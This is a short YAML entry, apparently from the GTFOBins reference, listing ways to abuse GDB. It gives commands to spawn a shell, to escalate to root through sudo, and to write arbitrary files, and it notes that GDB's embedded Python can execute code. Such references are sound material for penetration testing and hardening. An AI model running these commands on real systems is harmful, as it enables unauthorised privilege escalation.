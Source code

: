 ```yaml
---
description: |
  GDB may come with embedded Python support, in that case arbitrary code can be
  executed with the `python` command in the context of the GDB process.

  See the entries of Python version [2](/gtfobins/python2/) and version
  [3](/gtfobins/python3/).
functions:
  execute-interactive:
    - code: gdb -nx -ex '!sh' -ex quit
  sudo-enabled:
    - code: sudo gdb -nx -ex '!sh' -ex quit
  file-write:
    - code: |
        LFILE=file_to_write
        gdb -nx -ex "dump value $LFILE \"data\"" -ex quit
---
```


